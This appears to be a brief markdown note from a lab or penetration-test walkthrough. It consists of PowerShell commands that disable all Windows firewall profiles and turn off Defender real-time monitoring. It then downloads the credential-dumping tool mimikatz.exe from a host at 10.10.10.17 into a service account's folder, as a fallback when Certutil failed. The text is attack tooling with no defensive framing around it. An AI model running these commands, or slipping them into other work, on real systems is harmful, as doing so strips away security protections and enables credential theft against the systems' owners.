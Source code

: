 Disabling firewall
Set-NetFirewallProfile -Profile Domain, Private,Public -Enabled False
Get-NetFirewallProfile | Select-Object Name, Enabled


To check if the "Real time monitoring is on"
Get-MpPreference | Select-Object DisableRealtimeMonitoring

To disable " Real time monitoring"
Set-MpPreference -DisableRealtimeMonitoring $true

The command below was used when Certutil failed
 Invoke-WebRequest -Uri http://10.10.10.17:8110/mimikatz.exe -OutFile C:\Users\app-svc\Downloads\mimikatz.exe

<img width="1016" height="508" alt="image" src="https://github.com/user-attachments/assets/7ec2d507-cbb3-4a59-a689-70524dcffb3b" />
